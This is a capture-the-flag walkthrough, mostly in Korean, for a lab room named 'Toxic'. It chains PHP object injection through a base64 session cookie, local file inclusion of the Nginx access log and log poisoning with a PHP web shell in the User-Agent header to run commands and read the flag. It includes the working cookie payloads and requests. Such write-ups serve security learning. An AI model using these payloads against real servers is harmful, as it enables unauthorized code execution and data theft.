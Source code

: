 
# TryHackMe Walkthrough - Room: Toxic

**Target IP**: 94.237.57.115:39582  
**Difficulty**: Medium  
**Objective**: Gain access to the system by exploiting insecure object deserialization and log poisoning, and retrieve the flag.

---

## 🧭 Initial Access & Enumeration

### 🔎 Step 1: 페이지 소스 확인

- 브라우저로 `http://94.237.57.115:39582` 접속.
- 페이지는 간단한 텍스트와 함께 PHP로 구성된 것으로 보임.
- BurpSuite로 요청을 가로채고, 쿠키 값을 확인해보면 다음과 같은 `session` 쿠키가 존재함:

```
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9
```

### 🔍 Step 2: 쿠키 디코딩 및 분석

- 해당 값은 base64로 인코딩된 직렬화된 PHP 객체임.
- 디코딩:

```php
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

→ PageModel 객체 안에 `file` 필드를 `/www/index.html` 로 설정한 상태.

### 💡 아이디어: Local File Inclusion 우회

- `PageModel` 객체 내부의 `file` 경로를 수정하여 `/var/flag` 혹은 `/etc/passwd` 등 시스템 파일을 참조해보자.

---

## 🧪 LFI 시도 및 차단 확인

### ✅ 정상 출력 (기존 쿠키):

```php
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9`

### ❌ 실패한 flag 시도:

```php
O:9:"PageModel":1:{s:4:"file";s:9:"/var/flag";}
```

→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czo5OiIvdmFyL2ZsYWciO30=`

요청 후 500 Internal Error 발생 → 접근 권한 문제 혹은 파일 없음

---

## 🔥 Exploitation via Log Poisoning

### 💡 아이디어

- 로그 파일을 읽을 수 있다면, 그 안에 RCE 코드를 삽입해 `cmd=` 파라미터로 실행 가능.
- Nginx의 Access 로그 파일 경로는 보통: `/var/log/nginx/access.log`

### ✅ LFI 성공

```php
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```

→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==`

이 쿠키로 요청 시 로그 내용이 HTML로 출력됨

---

## 🐚 RCE via PHP Code Injection (로그 포이즈닝)

### Step 1: 유저 에이전트(User-Agent)에 PHP 삽입

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

- 이 User-Agent는 access.log에 저장됨

### Step 2: 다시 access.log를 LFI로 열고 cmd 실행

```http
GET /?cmd=ls HTTP/1.1
Cookie: session=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```

→ 결과:

```
index.html
index.php
models
static
```

### Step 3: 상위 디렉토리 탐색

```http
GET /?cmd=ls ./../ HTTP/1.1
```

→ 결과:

```
flag_B6HLk
```

### Step 4: 플래그 출력

```http
GET /?cmd=cat ./../flag_B6HLk HTTP/1.1
```

→ 결과:

```
HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
```

🎉 플래그 획득 성공!

---

## 🧠 기술 요약

| 기술              | 설명                                                                 |
|-------------------|----------------------------------------------------------------------|
| Base64 디코딩      | 세션 쿠키로 전달되는 직렬화된 객체를 디코딩해 내부 구조 파악            |
| PHP Object Injection | 사용자 입력으로 PageModel 객체 내부의 파일 경로를 변경하여 LFI 시도     |
| Local File Inclusion | `file` 파라미터를 통해 access.log 파일을 불러와 원격 명령 실행 유도     |
| Log Poisoning      | `User-Agent`에 PHP 코드를 삽입 → 로그 파일을 PHP 파일처럼 실행           |
| Remote Code Execution | `cmd` 파라미터로 PHP 코드 실행 → 시스템 명령 실행                    |

---

## 🎯 최종 결과

- **플래그**: `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`
- **획득 방법**: Nginx Access Log를 통한 로그 포이즈닝 + LFI + PHP RCE

---
